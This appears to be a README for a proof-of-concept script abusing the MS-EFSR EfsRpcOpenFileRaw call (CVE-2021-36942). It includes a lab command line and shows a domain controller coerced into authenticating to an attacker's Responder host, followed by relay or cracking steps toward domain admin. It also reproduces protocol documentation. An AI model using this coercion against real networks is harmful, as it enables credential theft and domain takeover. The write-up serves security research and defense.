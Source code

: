 # MS-EFSR - Remote call to EfsRpcOpenFileRaw (opnum 0)

## Summary

+ **Protocol**: [[MS-EFSR]: Encrypting File System Remote (EFSRPC) Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/08796ba8-01c8-4872-9221-1000ec2eff31)

+ **Function name**: [`EfsRpcOpenFileRaw`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/ccc4fb75-1c86-41d7-bbc4-b278ec13bfb8)

+ **Function operation number**: `0`

+ **RPC Interfaces**:
  + Interface 1:
    + uuid=`c681d488-d850-11d0-8c52-00c04fd90f7e`
    + version=`1.0`
    + Accessible through:
      + SMB named pipe: `\PIPE\lsarpc`
      + SMB named pipe: `\PIPE\lsass`
      + SMB named pipe: `\PIPE\netlogon`
      + SMB named pipe: `\PIPE\samr`
  + Interface 2:
    + uuid=`df1941c5-fe89-4e79-bf10-463657acf44d`
    + version=`1.0`
    + Accessible through:
      + SMB named pipe: `\PIPE\efsrpc`

## Description

In order to call a remote procedure to trigger an authentication from the remote machine to an arbitrary target, we first need to authenticate to the remote machine, usually on SMB. Then we need to connect to the remote SMB pipe `\pipe\lsarpc` and bind to the desired [`MS-EFSR`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/08796ba8-01c8-4872-9221-1000ec2eff31) protocol (with uuid `c681d488-d850-11d0-8c52-00c04fd90f7e` and version `1.0`) in order to perform remote procedure calls to functions in the [`MS-EFSR`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/08796ba8-01c8-4872-9221-1000ec2eff31) protocol.

The IP 192.168.2.51 being my attacking machine where I listen with Responder, and 192.168.2.1 being the IP of my Windows Server. When starting this script, it will authenticate and connect to the remote pipe named `\PIPE\lsarpc`. This pipe is connected to the protocol [[MS-EFSR]: Encrypting File System Remote (EFSRPC) Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/08796ba8-01c8-4872-9221-1000ec2eff31) and allows to call RPC functions of this protocol. It will then call the remote [`EfsRpcOpenFileRaw`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/ccc4fb75-1c86-41d7-bbc4-b278ec13bfb8) function on the Windows Server (192.168.2.1) with the following parameters:

```cpp
EfsRpcOpenFileRaw("\\\\192.168.2.51\\share\\file.txt\x00", 1)
```

We can try this with this proof of concept code ([coerce_poc.py](./coerce_poc.py)):

```bash
./coerce_poc.py -d "LAB.local" -u "user1" -p "Podalirius123!" 192.168.2.51 192.168.2.1
```

![](./imgs/poc.png)

This will force the Windows Server (192.168.2.1) to authenticate to the SMB share `\\192.168.2.51\NETLOGON` and therefore authenticate using its machine account (`DC01$`).  After this RPC call, we get an authentication from the domain controller with its machine account directly on Responder:

![](./imgs/hash.png)

After this step, we relay the authentication to other services in order to elevate our privileges, or try to downgrade it to NTLMv1 and crack it in order to get the NT hash of the domain controller's machine account. This kind of vulnerabilities allows to quickly get from user to domain administrator in unprotected domains!

---

## Function technical detail

```cpp
long EfsRpcOpenFileRaw(
    [in] handle_t binding_h,
    [out] PEXIMPORT_CONTEXT_HANDLE* hContext,
    [in, string] wchar_t* FileName,
    [in] long Flags
);
```

+ **binding_h**: An explicit binding handle created by the client. This is an RPC binding handle parameter, as specified in [C706] and [MS-RPCE] section 2.

+ **hContext**: An implementation-specific context handle that is used in subsequent calls by the client to the EfsRpcReadFileRaw method, EfsRpcWriteFileRaw method, or EfsRpcCloseRaw method.

+ **FileName**: An EFSRPC identifier, as specified in section 2.2.1.

+ **Flags**: This MUST be set to some combination of the following values. All servers and clients MUST support the CREATE_FOR_IMPORT flag. Servers that implement a hierarchical encrypted store, such as the NTFS file system, SHOULD also support the CREATE_FOR_DIR flag. Servers SHOULD support the OVERWRITE_HIDDEN flag, and MAY interpret it in implementation-specific ways. A client MUST ensure that all the flags it does not support are set to zero. A server MUST ignore all flags it does not support. Flag values are specified in the following table.

| Name | Value | Description |
|---|---|---|
| `CREATE_FOR_IMPORT` | `0x00000001` | Open the object for writing (that is, restore). If this flag is not set, open the object for reading (that is, backup). |
| `CREATE_FOR_DIR` | `0x00000002` | This flag is only intended for use in conjunction with the CREATE_FOR_IMPORT flag. It indicates that the object being restored is a container for other objects.<42> |
| `OVERWRITE_HIDDEN` | `0x00000004` | This flag is only intended for use in conjunction with the CREATE_FOR_IMPORT flag. This flag indicates a request from the client for the server to overwrite an existing object even if the existing object is "hidden". The meaning of "hidden" is specific to the implementation of the data store, and this meaning does not affect protocol behavior. |
| `EFS_DROP_ALTERNATE_STREAMS` | `0x00000010` | This flag indicates that content from any alternate data streams, if present and implemented by the storage system, will be ignored. |

## References

+ Documentation of protocol [MS-EFSR]: Encrypting File System Remote (EFSRPC) Protocol: [https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/08796ba8-01c8-4872-9221-1000ec2eff31](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/08796ba8-01c8-4872-9221-1000ec2eff31)

+ Documentation of function `EfsRpcOpenFileRaw`: [https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/ccc4fb75-1c86-41d7-bbc4-b278ec13bfb8](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/ccc4fb75-1c86-41d7-bbc4-b278ec13bfb8)

+ CVE-2021-36942 Windows LSA Spoofing Vulnerability: [https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-36942](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-36942)

+ This call was pointed out by [@topotam77](https://twitter.com/topotam77/) on Jul 18, 2021: [https://twitter.com/topotam77/status/1416833996923809793](https://twitter.com/topotam77/status/1416833996923809793)